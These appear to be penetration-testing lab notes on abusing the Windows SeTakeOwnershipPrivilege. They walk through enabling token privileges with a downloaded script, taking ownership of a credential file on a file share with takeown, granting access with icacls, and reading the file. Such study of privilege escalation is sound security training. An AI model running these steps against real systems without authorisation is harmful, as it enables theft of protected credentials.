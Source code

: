 # SeTakeOwnershipPrivilege

* `SeTakeOwnershipPrivilege` grants a user the ability to take ownership of any "securable object" - meaning AD objects, NTFS files/folders, printers, registry keys, services, and processes
* Privilege assigns `WRITE_OWNER` rights over an object - user can change the owner within the objects security descriptor
* Administrators are assigned this privilege by default

This setting can be set in Group Policy under:
* Computer Configuration > Windows Settings > Security Settings > Local Policies> User Rights Assignment

* With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, RCE or DOS
* Encounter a user with this privilege or assign it to them through an attack such as GPO abuse using SharpGPOAbuse
* We could use this privilege to potentially take control of a shared folder or sensitive files

## Reviewing Current User Privileges
<pre>PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled</pre>

## Enabling SeTakeOwnershipPrivilege
* Enable using script - https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

<pre>Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1

whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled</pre>

## Choosing a Target File
* Choose a target file and confirm the current ownership
* We have access to the companies file share and can browse the **Private** and **Public** subdirectories
* Private > all Domain Users can list the contents of certain subdirectories but get an **Access Denied** when trying to read the contents
* We find a file named **cred.txt** under the IT subdirectory of the **Private** share folder during enumeration

User account has `SeTakeOwnershipPrivilege`, we can use it to read any file of our choosing.

* Check target file to gather information

<pre>Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}</pre>

## Check File Ownership
* We do not have sufficient permissions over the object to view
* Check owner of the IT directory

<pre>cmd /c dir /q 'C:\Department Shares\Private\IT'</pre>

* IT share/directory is owned by a service account and does contain a file **cred.txt** with some data inside it

## Take Ownership of the File

<pre>takeown /f 'C:\Department Shares\Private\IT\cred.txt'</pre>

## Confirm Ownership Changes

<pre>Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}</pre>

## Modify the File ACL
* We may still not be able to read the file and need to modify the ACL using icacls to be able to read it

<pre>cat 'C:\Department Shares\Private\IT\cred.txt'

icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F</pre>

## Reading the File

<pre>cat 'C:\Department Shares\Private\IT\cred.txt'</pre>